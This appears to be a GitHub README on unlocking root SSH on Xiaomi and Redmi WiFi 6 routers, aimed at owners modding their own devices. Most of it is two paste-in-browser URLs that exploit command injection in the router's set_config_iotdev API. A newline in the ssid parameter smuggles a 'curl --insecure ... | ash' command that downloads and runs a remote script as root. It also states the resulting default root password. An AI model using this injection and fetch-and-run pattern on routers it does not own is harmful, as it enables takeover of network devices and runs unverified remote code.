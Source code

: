 # Unlock SSH on Xiaomi and Redmi WiFi 6 routers

Login to the Web UI (http://192.168.31.1), get the stok parameter value from the URL, replace it in the below URL and run it on browser:
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Funlock_ssh.sh%20%7C%20ash%0A
```
Now you can connect to ssh with "ssh root@192.168.31.1", the default password is literally "password". Don't forget to change it with "passwd root" afterwards.

If you also want to block some Chinese servers (this will also disable access by the MiWifi app), run:
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Fblock_chinese_servers.sh%20%7C%20ash%0A
```
